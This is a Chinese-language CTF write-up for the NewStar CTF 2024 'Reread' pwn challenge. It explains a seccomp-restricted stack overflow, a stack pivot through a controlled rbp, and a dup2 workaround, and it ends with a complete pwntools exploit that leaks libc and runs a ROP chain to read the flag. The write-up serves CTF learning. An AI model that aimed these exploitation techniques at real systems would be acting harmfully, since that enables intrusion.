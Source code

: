 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Reread

先查看沙箱

![查看沙箱](/assets/images/wp/2024/week4/reread_1.png)

可以看到除了只允许 open、read、write、dup2 四个系统调用外，还增添了一个额外条件，那就是执行 `read` 系统调用时，第一个参数必须是 `0`

查看主要函数 `vuln`，直接一个栈溢出贴脸，但是溢出的长度很短，算上 `rbp` 的话其实只能覆盖范围地址这一个地方

```c
int vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("[+] Ok let's try your best!!馃構");
  read(0, buf, 0x50uLL);
  return puts("done!");
}
```

那该怎么办呢

我们来仔细看一下汇编，通过 gdb 动态调试可以知道，其实是 `lea rsi,[rbp]`

然在前面的栈溢出中我们可以控制 rbp，如果把返回地址覆盖成 `4013AC`，那我们就可以向任意地址写入 `0x50` 字节

同时第二次读入的时候，`rbp` 又是可控的，程序也会执行 `leave ret`，如此，便构成了一次巧妙的栈迁移

```asm
.text:00000000004013AC                 lea     rax, [rbp+buf]
.text:00000000004013B0                 mov     edx, 50h ; 'P'  ; nbytes
.text:00000000004013B5                 mov     rsi, rax        ; buf
.text:00000000004013B8                 mov     edi, 0          ; fd
.text:00000000004013BD                 call    _read
.text:00000000004013C2                 lea     rdi, aDone      ; "done!"
.text:00000000004013C9                 call    _puts
.text:00000000004013CE                 nop
.text:00000000004013CF                 leave
.text:00000000004013D0                 retn
```

至于上文 `sandbox` 中设置的 `syscall_read` 的一参必须为 `0` 的问题，可以使用 dup2 系统调用

具体用法为 `dup2(fd,new_fd)`，可以看作 `new_fd` 是 `fd` 的一个拷贝，同时会 `close(fd)`

所以，EXP 如下

```python
from pwn import *
import sys
from ctypes import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux','splitw','-h']

libc = ELF('./libc.so.6')
elf = ELF('./pwn')
flag = 1
if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./pwn")

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

reread = 0x4013ac
pop_rdi = 0x0000000000401473
lea_ret = 0x00000000004012ec

payload = b'a'*0x40 + p64(elf.bss(0x800)) + p64(reread)
# gdb.attach(p)
sd(payload)

payload = p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x401394) + b'./flag\x00\x00'
payload = payload.ljust(0x40,b'\x00')
payload += p64(elf.bss(0x7b8)) + p64(lea_ret)
sd(payload)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - libc.sym['puts']
leak("libc", libc.address)

pop_rsi = 0x000000000002601f + libc.address
pop_rdx_r12 = 0x0000000000119431 + libc.address
pop_rax = 0x0000000000036174 + libc.address
syscall = 0x00000000000630a9 + libc.address

payload = b'a'*0x40 + p64(elf.bss(0xa00)) + p64(reread)
sd(payload)

payload = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(elf.bss(0x9f8)) + p64(pop_rdx_r12) + p64(0x200)*2 + p64(elf.plt['read'])
payload += p64(elf.bss(0x9b8)) + p64(lea_ret)
sd(payload)

orw = flat([
    pop_rdi,elf.bss(0x9f8),
    pop_rsi,0,
    pop_rdx_r12,0,0,
    pop_rax,2,
    syscall,
    pop_rdi,3,
    pop_rsi,0,
    pop_rax,33,
    syscall,
    pop_rdi,0,
    pop_rsi,elf.bss(0x100),
    pop_rdx_r12,0x40,0x40,
    pop_rax,0,
    syscall,
    pop_rdi,1,
    pop_rax,1,
    syscall,
])
sd(b'./flag\x00\x00' + orw.ljust(0x1f8,b'\x00'))
p.interactive()
```
